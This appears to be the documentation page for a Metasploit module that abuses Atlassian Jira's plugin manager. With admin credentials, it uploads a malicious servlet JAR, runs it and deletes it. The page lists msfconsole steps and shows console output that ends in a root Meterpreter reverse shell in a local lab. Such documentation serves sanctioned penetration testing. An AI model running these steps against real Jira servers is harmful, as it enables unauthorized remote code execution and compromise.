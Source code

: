 ## Description

This module uses a POST request against the Atlassian Jira Universal Plugin Manager (UPM) to upload a malicious Java servlet in the form of a JAR archive. Once uploaded the module executes the payload with a GET request and then cleans up after itself by deleting the plugin. Successful exploitation is dependent on valid credentials to an account that has access to the UPM (typically the admin account). The module includes a check function that will validate user supplied credentials and access to the UPM.

## Vulnerable Application
	
The version of Atlassian Jira used for testing was 7.8.0 but the module should work for all versions of Jira as the main dependency is the implementation of Atlassian's UPM framework.

To set up a vulnerable installation:
1. Build the Atlassian SDK environment. Instructions can be found below:
    - Windows:
    https://developer.atlassian.com/server/framework/atlassian-sdk/install-the-atlassian-sdk-on-a-windows-system/
    - Linux/Mac:
    https://developer.atlassian.com/server/framework/atlassian-sdk/install-the-atlassian-sdk-on-a-linux-or-mac-system/
2. Create a shell Jira plugin and launch the SDK. Instructions can be found below:
    - https://developer.atlassian.com/server/framework/atlassian-sdk/create-a-helloworld-plugin-project/
3. Validate installation by browsing to localhost:2990/jira/ and logging in with the default credentials admin:admin



## Verification Steps

1. Install Atlassian SDK/Jira environment.
2. Browse to localhost:2990/jira/ to confirm successful deployment.
3. Start msfconsole: ```msfconsole -q```
4. Do: ```use exploit/multi/http/jira_plugin_upload```
5. Do: ```set rhost [IP]```
6. Check credentials and UPM access: ```check```
7. Do: ```exploit```
8. You should get a shell.

## Scenarios
Successful exploitation:
```
msf > use exploit/multi/http/jira_plugin_upload
msf exploit(multi/http/jira_plugin_upload) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf exploit(multi/http/jira_plugin_upload) > check

[*] Server accepted the credentials, user has access to plugin manager!
[*] 127.0.0.1:2990 The target appears to be vulnerable.
msf exploit(multi/http/jira_plugin_upload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Retrieving Session ID and XSRF token...
[*] Attempting to upload UlDRthpT
[*] Successfully uploaded UlDRthpT
[*] Executing UlDRthpT
[*] Deleting UlDRthpT
[*] Sending stage (53837 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:43208) at 2018-02-25 13:45:43 -0500

meterpreter > getuid
Server username: root
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 127.0.0.1 - Meterpreter session 1 closed.  Reason: User exit
[*] 127.0.0.1 - Meterpreter session 1 closed.  Reason: Died
msf exploit(multi/http/jira_plugin_upload) > 
```

